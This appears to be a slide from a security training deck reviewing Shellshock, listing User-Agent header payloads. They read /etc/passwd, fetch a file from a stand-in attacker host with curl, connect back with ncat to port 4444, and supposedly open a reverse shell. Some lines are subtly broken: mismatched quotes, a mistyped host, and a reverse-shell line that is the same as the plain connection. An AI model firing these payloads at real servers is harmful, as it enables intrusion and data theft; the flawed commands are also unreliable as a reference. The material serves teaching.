

# Researching Shellshock Review
Write Shellshock payloads that:
Read /etc/passwd:
User-Agent: () { :;}; /bin/bash -c 'cat /etc/passwd'

Use curl to download a malicious file from http://evil.suite/mal.php:
User-Agent: () { :;}; /bin/bash -c 'cd /tmp && curl -0 http://evil.site/mal.php'

Open an Ncat connection to your port 4444:
User-Agent: () { :;}; /bin/bash -c 'ncat 192.168.0.5 4444`

Send a reverse shell to your port 4444:
User-Agent: () { :;}; /bin/bash -c 'ncat 192.168.0.5 4444`

26